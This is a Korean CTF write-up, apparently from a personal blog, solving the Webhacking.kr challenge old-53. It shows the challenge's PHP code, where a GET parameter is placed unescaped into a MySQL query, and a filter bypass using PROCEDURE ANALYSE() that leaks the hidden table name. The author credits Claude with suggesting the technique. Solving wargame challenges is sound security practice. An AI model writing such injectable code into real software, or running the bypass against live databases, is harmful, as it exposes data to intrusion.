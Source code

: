 ```yaml
---
title: ["[Webhacking.kr] old-53 (sqli - 35)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  $db = dbconnect();
  include "./tablename.php";
  if($_GET['answer'] == $hidden_table) solve(53);
  if(preg_match("/select|by/i",$_GET['val'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select a from $hidden_table where a={$_GET['val']}"));
  echo($result[0]);
?>  
```  
table명을 알아내는 Blind SQLi로 보였는데, `SELECT`문을 못 써서 정석적인 풀이가 불가능해 보인다.  

클로드에게 물어보니, `PROCEDURE ANALYSE`를 소개해줬다.  
`PROCEDURE ANALYSE()` 함수는 MySQL에서 테이블의 데이터를 분석해서 각 컬럼에 대한 최적의 데이터 타입을 추천해주는 프로시저이다.  

```sql
SELECT * FROM users PROCEDURE ANALYSE();
```  
이런 쿼리를 실행한다면,  
1. 각 컬럼의 실제 데이터를 스캔
2. 데이터의 범위, 길이, 형식 등을 분석
3. 분석 결과를 바탕으로 더 효율적인 데이터 타입을 추천
4. 이 과정에서 현재 테이블의 구조 정보가 노출됨

```sql
select a from $hidden_table where a=1 procedure analyse()
```  
해당 쿼리를 실행하면 `webhacking.chall53_755fdeb36d873dfdeb2b34487d50a805.a`  
이런 결과가 출력된다.  

* 데이터베이스: webhacking
* 테이블명: chall53_755fdeb36d873dfdeb2b34487d50a805
* 컬럼: a